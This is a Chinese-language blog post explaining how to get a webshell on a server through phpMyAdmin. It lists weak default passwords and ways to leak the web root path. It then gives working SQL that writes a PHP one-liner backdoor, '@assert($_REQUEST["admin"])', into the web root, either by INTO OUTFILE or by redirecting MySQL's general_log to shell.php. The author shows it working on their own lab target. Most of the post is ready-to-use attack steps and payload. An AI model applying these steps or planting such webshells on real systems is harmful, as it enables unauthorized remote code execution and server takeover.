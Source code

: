 ```yaml
---
layout:     post
title:      phpMyAdmin拿shell的两种方法
subtitle:   phpMyAdmin拿shell
date:       2019-07-13
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - phpMyAdmin
---
```

# 利用前提
## phpMyAdmin用户名和密码
如何获取phpMyAdmin用户名和密码：
* 弱口令
  * root/root
  * root/空密码
  * root/123456
  * ....
* phpMyAdmin爆破工具
* 信息泄露(配置文件等)
* sql注入
* 等等
## 网站绝对路径
如何获取网站的绝对路径呢？
* 单引号爆绝对路径
  * xx.asp?id=1'
* 错误参数值爆绝对路径
  * xx.asp?id=-1
* 搜索引擎搜索绝对路径
  * site:xxx.com error
  * site:xxx.com warning
  * site:xxx.com fatal error
* 测试文件获取绝对路径
  * phpinfo.php
  * test.php
  * ceshi.php
  * info.php
  * php_info.php
* 等等
# 拿shell的两种方法
## 低版本Mysql
Mysql低于5.0，可以直接通过outfile写入：
```
SELECT "<?php @assert($_REQUEST["admin"]);?>" INTO OUTFILE  '<网站绝对路径>'
```

## 高版本Mysql
通过以下SQL语句可以查询secure_file_priv（secure-file-priv是全局变量，指定文件夹作为导出文件存放的地方，这个值是只读的）是否为null：
```
show variables like '%secure%'
```
从下图可以看到我的靶机secure_file_priv值为null：
![图片](../../../../img/phpmyadmin_shell1.png)
通过以下SQL语句可以查询到日志保存状态(ON代表开启 OFF代表关闭)和日志的保存路径：
```
show variables like '%general%'
```
从下图可以看到我的靶机是关闭日志保存的，还有日志保存的路径在哪：
![图片](../../../../img/phpmyadmin_shell2.png)
因此通过以下SQL语句修改general_log的值，开启日志保存：
```
set global general_log='on';
```
通过以下SQL语句修改日志保存的路径(general_log_file值)：
```
SET global general_log_file='<网站绝对路径>/shell.php'
```
再次执行以下SQL语句，查询是否成功更改：
```
show variables like '%general%'
```
从下图可以看到，成功通过SQL语句修改成功了：
![图片](../../../../img/phpmyadmin_shell3.png)
执行以下SQL语句，以下SQL语句将会被写入到日志文件(shell.php)中：
```
SELECT '<?php @assert($_REQUEST["admin"]);?>';
```
从下图可以看到一句话木马写入了日志文件中：
![图片](../../../../img/phpmyadmin_shell4.png)
通过URL访问，成功被执行了！
![图片](../../../../img/phpmyadmin_shell5.png)

